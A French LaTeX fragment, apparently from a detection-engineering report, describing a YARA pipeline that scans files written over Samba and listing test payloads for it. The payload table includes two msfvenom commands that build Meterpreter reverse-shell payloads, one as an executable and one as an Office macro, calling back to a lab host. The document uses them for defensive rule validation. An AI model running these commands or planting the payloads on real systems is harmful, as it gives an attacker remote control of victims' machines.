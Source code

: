 \documentclass[12pt,a4paper]{article}
\begin{document}
\textbf{Sources corrélées.} daemon/Samba.

\textbf{Règle déclenchée.} \texttt{SMB\_MALICIOUS\_FILE\_001} (Type~4).

\textbf{MITRE ATT\&CK.} T1080 (Taint Shared Content) /  T1204.002 (Malicious File).

\subsection{YARA --- payload et règles}
YARA joue un rôle très important dans le pipeline de la collecte.
\begin{itemize}
    \item Il intervient comme source de vérité unique pour la règle
    \texttt{SMB\_MALICIOUS\_FILE\_001}, déclenché par le Dispatcher
    sur tout événement \texttt{samba\_write}, indépendamment des
    règles YAML actives.
    \item Il est appelé comme couche d'enrichissement supplémentaire
    au step~1 de \texttt{MALICIOUS\_FILE\_EXEC\_001}, sur ce même
    événement \texttt{samba\_write}, avant que la séquence ne
    progresse vers les étapes suivantes.
\end{itemize}
Trois familles de payloads sont testées :

\begin{table}[H]
\centering
\caption{Payloads testés avec YARA}
\label{tab:yara}
\begin{tabularx}{\textwidth}{|>{\raggedright\arraybackslash}p{4.8cm}|>{\raggedright\arraybackslash}p{4.8cm}|>{\raggedright\arraybackslash}X|}
\hline
\textbf{Payload} & \textbf{Génération} & \textbf{Usage} \\
\hline
EICAR test file & Fichier texte standard antivirus & Validation pipeline YARA sans payload réel (tests unitaires) \\
\hline
Meterpreter reverse shell (.exe) & \url{msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.1.50 LPORT=4444 -f exe} & Scénario S3 --- validation des règles Meterpreter du dépôt signature-base \\
\hline
Macro Office malveillante (.docm) & \url{msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.1.50 LPORT=4444 -f vba} & Scénario S3 variante --- vecteur BEC réaliste (pièce jointe mail) \\
\hline
\end{tabularx}
\end{table}

Les règles YARA proviennent du dépôt communautaire
\texttt{Neo23x0/signature-base} \cite{signature_base}, filtré pour ne
conserver que les règles couvrant les exécutables Windows malveillants
(\texttt{SUSP\_*}, \texttt{MAL\_*}). Les règles réseau et mémoire sont
exclues car YARA opère uniquement sur des fichiers dans ce projet.
\end{document}

